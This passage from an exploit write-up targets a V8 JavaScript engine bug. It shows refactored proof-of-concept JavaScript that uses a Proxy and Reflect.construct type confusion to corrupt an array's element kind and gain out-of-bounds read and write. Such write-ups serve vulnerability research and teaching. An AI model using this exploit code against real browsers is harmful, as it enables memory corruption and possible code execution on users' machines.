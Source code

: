   
 - prototype: 0x03f508208dcd <JSArray[0]>
 - constructor: 0x03f508208ca1 <JSFunction Array (sfi = 000003F508188E41)>
 - dependent code: 0x03f5080401ed <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0
 ```

Now that we can change the length of an array, it is possible to read and write out of bounds from the array b. We can now alter the POC to force optimizations so that we can remove the `%OptimizeFunctionOnNextCall` functions by introducing for loops. Without explaining too much, this is what it looks like after refactoring.

```js
MAXITER = 100000; // 10000 wasnt enough lel
LOOPCOUNT = 100;

const EXPLOIT_LENGTH = 47707876338752028672E20;  //0x4141
var a = [0.1, , , , , , , , , , , , , , , , , , , , , , , 6.1, 7.1, 8.1];
var x = null;
var oob_Array = null;
  
function empty() {}
function f(nt) {
    // pushes the supposed double(object) into the confused array a writing 26*8 rather than 26*4 bytes
    // of data thus writing out of bounds.
    a.push(typeof(Reflect.construct(empty, arguments, nt)) === Proxy ? EXPLOIT_LENGTH : EXPLOIT_LENGTH);
    for (var i = 0; i < MAXITER; i++) {}
}

let p = new Proxy(Object, {
    get: function() {
        // // Creates a new proxy object that changes the a arrays from FixedDoubleArray (element size 8 – double)
        // to FixedArray (Element size 4 – object tagged pointers)
        a[0] = {};
        oob_Array = [0.1, 0.2, 0.3, 0.4, 0.5];

        return Object.prototype;
    }
});

function main(o) {
    for (var i = 0; i < MAXITER; i++) {}
    return f(o);
}

function oobMe() {

    a = [0.1, , , , , , , , , , , , , , , , , , , , , , , 6.1, 7.1, 8.1];

    for (var i = 0; i < MAXITER; i++) {
        empty();
    }
    a.pop();
    a.pop();
    a.pop();

    main(empty);
    main(empty);
    main(p);
    for (let i = 0; i < MAXITER; i++) {}
}

```